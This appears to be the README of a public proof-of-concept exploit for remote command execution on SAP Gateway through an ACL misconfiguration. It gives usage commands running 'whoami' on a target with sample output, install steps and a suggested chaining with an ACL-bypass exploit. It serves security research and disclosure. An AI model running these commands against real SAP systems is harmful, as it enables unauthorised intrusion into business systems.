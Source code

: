 ## What is it?

This PoC exploits an ACL misconfiguration in the SAP Gateway (port
33xx) that leads to a Remote Command Execution (RCE).

`SAPanonGWv1.py` is the first version of the exploit based on raw
packets sent. It does not require any additional modules (Run and
Pwn!).

`SAPanonGWv2.py` is the second version of the exploit based on the
[pysap](https://github.com/gelim/pysap) library.

## Creds

These PoCs were developed by Dmitry [@_chipik](https://twitter.com/_chipik) Chastuhin 


## How to use

```bash
➜python SAPanonGWv1.py -t 172.16.30.28 -p 3300 -c whoami
[*] sending cmd:whoami
n45adm
```


```bash
➜python SAPanonGWv2.py -t <ip> -p 3300 -c whoami
[INFO ] [+] Sending GW_NORMAL_CLIENT
[INFO ] Response: OK
[INFO ] [+] Sending F_SAP_INIT
[INFO ] Response: OK
[INFO ] [+] Sending F_SAP_SEND
[INFO ] [+] Sending F_SAP_SEND2
n45adm
```


## Installation

Only for `SAPanonGWv2.p`

```
git clone https://github.com/gelim/pysap
pip install -r pysap/requirements.txt
python pysap/setup.py install
git clone https://github.com/chipik/SAP_GW_RCE_exploit
```

or 

```
git clone https://github.com/chipik/SAP_GW_RCE_exploit
pip install -r SAP_GW_RCE_exploit/requirements.txt
```


## SAP GW ACL bypass

You can use these exploits together with [SAP MS Trusted](https://github.com/gelim/sap_ms) exploit that allows you to bypass dafault `sec_info` ACL

See our [presentation ](https://github.com/comaeio/OPCDE/blob/master/2019/Emirates/(SAP)%20Gateway%20to%20Heaven%20-%20Dmitry%20Chastuhin%2C%20Mathieu%20Geli/(SAP)%20Gateway%20to%20Heaven.pdf) for details

### Contributors

Contributions made by:

  * Dmitry Chastuhin ([@_chipik](https://twitter.com/_chipik))
  * Mathieu Geli ([@gelim](https://github.com/gelim))
